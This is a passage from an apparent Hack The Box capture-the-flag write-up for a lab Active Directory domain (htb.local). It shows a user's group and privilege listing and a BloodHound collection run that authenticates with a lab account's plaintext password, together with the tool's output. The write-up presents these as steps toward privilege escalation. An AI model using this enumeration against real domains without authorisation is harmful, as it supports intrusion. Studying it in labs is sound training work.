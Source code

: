 ```powershell
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Account Operators                  Alias            S-1-5-32-548                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
HTB\Privileged IT Accounts                 Group            S-1-5-21-3072663084-364016917-1341370565-1149 Mandatory group, Enabled by default, Enabled group
HTB\Service Accounts                       Group            S-1-5-21-3072663084-364016917-1341370565-1148 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

```

The Account Operators, IT Acoounts and Service Accounts are all intersting groups.

Lets ran BloodHound to see where this gets us:

```bash
└─$ bloodhound-python -c ALL --zip -u svc-alfresco -p s3rvice -d htb.local -ns 10.129.162.127
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (FOREST.htb.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
```